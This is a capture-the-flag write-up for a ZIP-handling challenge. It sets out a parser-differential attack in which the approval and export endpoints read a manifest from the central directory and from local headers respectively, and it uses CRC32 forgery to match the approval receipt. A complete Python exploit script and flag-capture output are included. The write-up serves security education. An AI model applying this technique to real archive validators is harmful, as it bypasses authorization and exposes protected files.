



## Recon

Split Directory accepts a compact, uncompressed ZIP with `archive.note` followed by `manifest.txt`. Approval requires the manifest's first line to select a public document such as `public/welcome`; export is supposed to stream the selected document. The sealed report is not on that allowlist.



The handout says approval and export consume the same uploaded bytes, and that approval records a receipt containing only the manifest's uncompressed length and CRC32. A direct request for `sealed/report` is rejected, while adding a second EXPORT line does not help because export honors only the first.

We probed the structural checks by changing one ZIP field at a time. The validator verifies sizes, CRCs, STORED methods, contiguous records, central-directory order, and local-header offsets. That rules out truncating the file or appending another archive. The omission we can use is that the filename in each local header need not agree with the filename in its central-directory entry.

## Exploitation

The two endpoints resolve `manifest.txt` differently. Approval follows the central directory, so its second entry points to the second local record. Export sequentially scans local-header names and uses the first record named `manifest.txt`. We can therefore give approval a public manifest and export a sealed one in the same archive.



Both candidate manifests are 106 bytes, so equalizing their CRC32 values without changing either EXPORT line makes the sealed view match the public view's receipt.

The central directory remains canonical: `archive.note` names record 1 and `manifest.txt` names record 2. Only the local names are swapped. Approval reads record 2 and binds `(106, 0x842bbea8)`; export reads record 1, sees the sealed selection, and computes the same receipt.

The helpers make the script reproducible without inlining their implementations: `zipkit.lfh`, `zipkit.cdh`, and `zipkit.eocl` emit raw ZIP local-file-header, central-directory-header, and end-of-central-directory records, while `client.full_cycle` performs the upload, approval, and export sequence.

CRC32 is linear over GF(2), meaning arithmetic over bits where addition is XOR, so flipping any single padding bit changes the CRC by a fixed 32-bit value. The effects of all 32 candidate bit-flips form a linear system, and solving it gives the bits to flip so the sealed view's CRC equals the public one. `crc_fix(note, range(102, 106), target)` performs that solve and mutates `note` in place, returning `None` only on failure (which the `assert ... is not None` below guards against).

```python
import zlib
from zipkit import lfh, cdh, eocl, crc_fix
import client

NB, MB = b"archive.note", b"manifest.txt"

man = bytearray(b"EXPORT public/welcome\n" + b"P" * 84)
note = bytearray(b"EXPORT sealed/report\n" + b"S" * 85)

target = zlib.crc32(bytes(man)) & 0xffffffff

assert crc_fix(note, range(102, 106), target) is not None

out = bytearray()
out += lfh(MB, bytes(note))
off2 = len(out)

out += lfh(NB, bytes(man))
cd_start = len(out)

out += cdh(NB, zlib.crc32(bytes(note)) & 0xffffffff, 106, 106, 0)
out += cdh(MB, zlib.crc32(bytes(man)) & 0xffffffff, 106, 106, off2)
out += eocl(2, len(out) - cd_start, cd_start)
client.full_cycle(bytes(out), "SWAPLFH")
```

## Flag capture

Approval succeeds on the public central-directory view, after which export returns the sealed document.



```bash
$ python attack.py
zip 434 bytes crc=842bbea8
[upload SWAPLFH] 201 b'90fa93a7dada685d187f0c17424ca470\n'
[approve SWAPLFH] 200 b'approved\n'
[export  SWAPLFH] 200 b'wctf{the_directory_was_only_one_view}\n'
```
